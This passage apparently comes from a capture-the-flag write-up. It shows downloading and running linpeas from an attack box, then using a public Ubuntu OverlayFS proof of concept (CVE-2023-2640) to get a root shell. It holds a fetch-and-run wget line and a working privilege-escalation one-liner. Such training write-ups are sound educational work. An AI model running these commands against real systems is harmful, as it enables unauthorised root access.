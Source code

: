 From our attack box, serve it with `updog`, and download it to the target, and execute it :

```shell
wget http://10.10.14.23:9090/linpeas_linux_amd64
chmod +x ./linpeas_linux_amd64
./linpeas_linux_amd64
```

nothing relevant, but we can notice the kernel version :

![Untitled](assets/Untitled%203.png)

"22.04.2-Ubuntu" it’s a bit old (we are in 2023), there could be a known vulnerability.

A search for a privesc leads to :

[https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=63649](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=63649)

There is a vulnerability that could be tested with :

```bash
# original poc payload
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

As we wish to have a shell, replace the `id` command by `bash` :

```shell
# original poc payload
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
```

result :

![Untitled](assets/Untitled%204.png)

got a shell as root !!

